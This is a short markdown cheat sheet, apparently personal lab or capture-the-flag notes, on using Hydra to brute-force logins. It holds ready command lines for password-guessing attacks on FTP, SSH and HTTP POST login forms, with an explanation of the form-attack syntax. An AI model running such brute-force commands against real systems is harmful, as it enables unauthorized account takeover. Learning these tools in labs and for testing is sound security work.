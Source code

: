 # Hydra

You use this bitch to brute force logins

Example:

To brute force an ftp server where you know the username, you would use 
`hydra -l user -P password.txt ftp://ipaddress`

<hr />

You can also use it for an ssh server:
`hydra -l user -P password.txt ipaddress -t 4 ssh`

<hr />

You can also use it for a web form. You must know what type of request it's making, which is usually GET or POST, use the developer tools to see what type of request the form is making. 
`sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"`

- <path> - the login page URL, for example, login.php
- <login_credentials> - the username and password used to log in, for example, username=^USER^&password=^PASS^
- <invalid_response> - part of the response when the login fails

A more concrete example would be: 
`hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

<hr />




